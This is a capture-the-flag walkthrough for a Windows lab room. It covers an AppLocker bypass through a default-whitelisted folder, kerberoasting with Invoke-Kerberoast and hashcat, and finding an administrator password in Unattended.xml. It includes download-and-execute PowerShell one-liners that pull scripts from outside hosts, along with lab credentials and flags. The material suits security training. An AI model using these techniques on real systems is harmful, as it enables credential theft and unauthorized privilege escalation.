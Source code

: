 # Corp

## Task 1

* In this room you will learn the following:

    1. Windows Forensics
    2. Basics of kerberoasting
    3. AV Evading
    4. Applocker

> Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

```
Username: corp\dark
Password: _QuejVudId6
```

## Task 2

* AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher and hash.

* You will have noticed with the deployed machine, you are unable to execute your own binaries and certain functions on the system will be restricted.

* There are many ways to bypass AppLocker.

* If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

* Go ahead and use Powershell to download an executable of your choice locally, place it the whitelisted directory and execute it.

* Just like Linux bash, Windows powershell saves all previous commands into a file called ConsoleHost_history. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* Access the file and and obtain the flag.

```
flag{a12a41b5f8111327690f836e9b302f0b}
```

## Task 3

* Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!

* Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.

* SPN is the Service Principal Name, and is the mapping between service and account.

* Running that command, we find an existing SPN. What user is that for?

```
fela
```

* Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

* Lets first get the Powershell Invoke-Kerberoast script.

```shell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 
```

* Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl`

* You should get a SPN ticket.

* Lets use hashcat to bruteforce this password. The type of hash we're cracking is Kerberos 5 TGS-REP etype 23 and the hashcat code for this is 13100.

```bash
hashcat -m 13100 -a 0 hash.txt wordlist --force
```

* Crack the hash. What is the users password in plain text?

```
rubenF124
```

* Login as this user. What is his flag?

```
flag{bde1642535aa396d2439d86fe54a36e4}
```

## Task 4

* We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

* We will run PowerUp.ps1 for the enumeration.

* Lets load PowerUp1.ps1 into memory.

```shell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
```

* The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

* "Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it here.

* It is also where users passwords are stored in base64. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

* What is the decoded password?

```
tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T
```

* Now we have the Administrator's password, login as them and obtain the last flag.

```
THM{g00d_j0b_SYS4DM1n_M4s73R}
```